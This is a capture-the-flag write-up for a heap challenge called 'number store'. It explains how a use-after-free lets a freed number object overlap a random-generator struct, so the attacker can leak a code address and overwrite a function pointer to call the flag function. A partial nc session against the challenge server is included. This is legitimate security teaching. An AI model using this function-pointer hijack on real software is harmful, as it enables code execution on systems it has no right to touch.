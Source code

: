 The "delete number" endpoint frees the object but doesn't null the reference (it only resets the name in the "names list"), so it's trivial to perform use-after-free on any object: `store -> delete -> edit/show`.

The random number generation has a particular handling:
- if no random number has been generated before, it calls a function `createRandomNum` that malloc a 24-bytes object (let's call it `rand_handler`), organized like that (in groups of 8 bytes):
```
| Random number (init to 0) | Previous random number (init to 0) | Pointer to `generateRandNum` function |
```
- the generated object `rand_handler` is then used: the function pointer (third field) is called to generate a random number, the second field is set equal to the first field, and the first field is set equal to the generated random number;
- at this point, the `rand_handler` is not null, so it's also possible to call the endpoint to show the random number.

Let's compare the structure of the `rand_handler` object with the structure of the `static_number` object:
```
| Random number (init to 0) | Previous random number (init to 0) | Pointer to `generateRandNum` function |
|                         Name                                   |              Number                   |
```

## Exploitation
TLDR ([UAF + malloc first-fit behaviour](https://infosecwriteups.com/use-after-free-13544be5a921)):
- `store(index=0, name='', num=0)`;
- `delete(index=0)`;
- `generate_rand()`;
- `pie_leak = show(index=0)`;
- `edit(index=0, num=print_flag_addr)`;
- `generate_rand()`.

I wrote a script for that, but at last I solve it by interacting by hand, because the functions used to get input gave me some problems. From `pie_leak`, that is `generateRandNum`, to `print_flag_addr`, that is `printFlag`, you just have to subtract 19 to the number obtained with `show` and use the result in `edit`.

```
$ nc cha.hackpack.club 41705
WELCOME TO NUMBER STORE
Store your favorite or secret numbers here! You can even generate new random numbers!
Now includes a super secret flag!

1.) Store New Number
2.) Delete Number
3.) Edit Number
4.) Show Number
5.) Show Number List
6.) Generate Random Number
7.) Show Random Number
8.) Show Super Secret Flag
9.) Quit

Choose option: 1
Enter index of new number (0-9): 0
Enter object name: asd
Enter number: 0

1.) Store New Number
2.) Delete Number
3.) Edit Number
4.) Show Number
5.) Show Number List
```